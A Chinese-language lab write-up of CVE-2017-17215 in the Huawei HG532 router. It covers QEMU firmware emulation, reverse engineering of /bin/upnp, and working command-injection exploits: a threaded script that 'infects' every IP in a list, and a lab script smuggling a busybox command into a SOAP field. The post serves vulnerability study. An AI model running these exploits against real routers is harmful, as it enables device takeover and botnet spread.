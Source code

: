 ```yaml
---
title: "CVE-2017-17215"
subtitle: "華為 HG532"
layout: post
author: "Hsu"
published: true
header-style: text
tags:
  - CVE
---
```

# CVE-2017-17215
> 工具: qemu-mips

## description
Huawei HG532 with some customized versions has a **remote code execution** vulnerability. An authenticated attacker could **send malicious packets to port 37215** to launch attacks. Successful exploit could lead to the remote execution of arbitrary code.
- 關鍵字: `37215`

## 模擬
- 先把映像檔載下來
    ```bash
    wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2
    wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
    ```
- 網路配置
    - 網橋創立
    ```bash
    sudo brctl addbr Virbr0
    sudo ifconfig Virbr0 192.168.10.1/24 up
    ```
    - 增加tap0接口
    ```bash
    sudo tunctl -t tap0
    sudo ifconfig tap0 192.168.10.11/24 up
    sudo brctl addif Virbr0 tap0
    ```
- 創建虛擬機
    ```bash
    sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic
    ```
- 在虛擬機上設定網路
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ping 192.168.10.1 -c10
    ```
- 在本機端傳送檔案
    ```bash
    scp -r squashfs-root/ root@192.168.10.2:~/
    ```
- 掛載檔案
    ```bash
    mount -o bind /dev ./squashfs-root/dev
    mount -t proc /proc ./squashfs-root/proc
    ```
- 回到本機端設定
    ```bash
    ssh root@192.168.10.2
    chroot squashfs-root /bin/sh
    ./bin/upnp
    ./bin/mic
    ```
- 接著就會發現ip改變，ssh中斷，因此要改回去
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ```
- 最後模擬成功，可以去192.168.10.2看

## PoC
```python3=
import threading, sys, time, random, socket, re, os, struct, array, requests
from requests.auth import HTTPDigestAuth
ips = open(sys.argv[1], "r").readlines()
cmd = "" # Your MIPS (SSHD)
rm = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"

class exploit(threading.Thread):
		def __init__ (self, ip):
			threading.Thread.__init__(self)
			self.ip = str(ip).rstrip('\n')
		def run(self):
			try:
				url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1"
				requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm)
				print "[SOAP] Attempting to infect " + self.ip
			except Exception as e:
				pass

for ip in ips:
	try:
		n = exploit(ip)
		n.start()
		time.sleep(0.03)
	except:
		pass
            
```
- 可以看到注入點應該是`NewDownloadURL`，但問題是在哪裡?
    - 往下看會看到`NewDownloadURL`是命令注射點

## write up
- 尋找幾個關鍵字: `37215`, `NewDownloadURL`
    ![image](https://hackmd.io/_uploads/ryA2TnUT0.png)
    - 所以漏洞應該與`/bin/upnp`, `/bin/mic`有關
- 逆向`/bin/upnp`，並搜尋`NewDownloadURL`後會出現這個
![image](https://hackmd.io/_uploads/SJPppnUpA.png)
    - 可以看出`ATP_XML_GetChildNodeByName`功能是分析XML，並將結果字串丟到第三個參數，回傳值是成功與否
    - 接著她可愛的程式碼沒經過任何處理就直接把字串拚一拚丟到system中
    - 因此我們可以用xml建構一些壞東西
- `script.py`
    ```python=
    import requests
    from requests.auth import HTTPDigestAuth


    data = '''
    <?xml version="1.0" ?>
     <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
       <NewStatusURL>;/bin/busybox ls -al;</NewStatusURL>
       <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
      </u:Upgrade>
     </s:Body>
    </s:Envelope>
    '''

    requests.post('http://192.168.10.2:37215/ctrlt/DeviceUpgrade_1',auth=HTTPDigestAuth('dslf-config', 'admin'),data=data)
    ```
- 結果(點到為止就好，剩下就是幹一個reverse shell出來，~~我累累病~~)
    - ![image](https://hackmd.io/_uploads/r1ERa28aC.png)



